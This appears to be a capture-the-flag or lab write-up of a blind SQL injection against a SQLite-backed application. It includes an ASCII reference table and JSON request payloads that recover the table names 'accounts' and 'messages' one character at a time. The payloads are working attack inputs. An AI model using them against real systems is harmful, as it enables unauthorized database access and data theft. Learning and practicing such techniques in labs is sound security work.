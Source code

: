 For reference
```bash
ascii -x
   00 NUL    10 DLE    20      30 0    40 @    50 P    60 `    70 p
   01 SOH    11 DC1    21 !    31 1    41 A    51 Q    61 a    71 q
   02 STX    12 DC2    22 "    32 2    42 B    52 R    62 b    72 r
   03 ETX    13 DC3    23 #    33 3    43 C    53 S    63 c    73 s
   04 EOT    14 DC4    24 $    34 4    44 D    54 T    64 d    74 t
   05 ENQ    15 NAK    25 %    35 5    45 E    55 U    65 e    75 u
   06 ACK    16 SYN    26 &    36 6    46 F    56 V    66 f    76 v
   07 BEL    17 ETB    27 '    37 7    47 G    57 W    67 g    77 w
   08 BS     18 CAN    28 (    38 8    48 H    58 X    68 h    78 x
   09 HT     19 EM     29 )    39 9    49 I    59 Y    69 i    79 y
   0A LF     1A SUB    2A *    3A :    4A J    5A Z    6A j    7A z
   0B VT     1B ESC    2B +    3B ;    4B K    5B [    6B k    7B {
   0C FF     1C FS     2C ,    3C <    4C L    5C \    6C l    7C |
   0D CR     1D GS     2D -    3D =    4D M    5D ]    6D m    7D }
   0E SO     1E RS     2E .    3E >    4E N    5E ^    6E n    7E ~
   0F SI     1F US     2F /    3F ?    4F O    5F _    6F o    7F DEL
```

First table name is `accounts`
```json
{ "id":"653 or (SELECT hex(substr(tbl_name,1,1)) FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%' limit 1 offset 0) = hex('a')" }
{ "id":"653 or (SELECT hex(substr(tbl_name,2,1)) FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%' limit 1 offset 0) = hex('c')" }
{ "id":"653 or (SELECT hex(substr(tbl_name,3,1)) FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%' limit 1 offset 0) = hex('c')" }
{ "id":"653 or (SELECT hex(substr(tbl_name,4,1)) FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%' limit 1 offset 0) = hex('o')" }
{ "id":"653 or (SELECT hex(substr(tbl_name,5,1)) FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%' limit 1 offset 0) = hex('u')" }
{ "id":"653 or (SELECT hex(substr(tbl_name,6,1)) FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%' limit 1 offset 0) = hex('n')" }
{ "id":"653 or (SELECT hex(substr(tbl_name,7,1)) FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%' limit 1 offset 0) = hex('t')" }
{ "id":"653 or (SELECT hex(substr(tbl_name,8,1)) FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%' limit 1 offset 0) = hex('s')" }
```

Second table probably is `messages`
```json
{ "id":"653 or (SELECT hex(substr(tbl_name,1,1)) FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%' limit 2 offset 1) = hex('m')" }
{ "id":"653 or (SELECT hex(substr(tbl_name,2,1)) FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%' limit 2 offset 1) = hex('e')" }
{ "id":"653 or (SELECT hex(substr(tbl_name,3,1)) FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%' limit 2 offset 1) = hex('s')" }
```

Now that we know the table names, we want to get the collumns and their values.  
I've been working based manually based of the techniques described here so far: [https://www.exploit-db.com/docs/english/41397-injecting-sqlite-database-based-applications.pdf](https://www.exploit-db.com/docs/english/41397-injecting-sqlite-database-based-applications.pdf)  
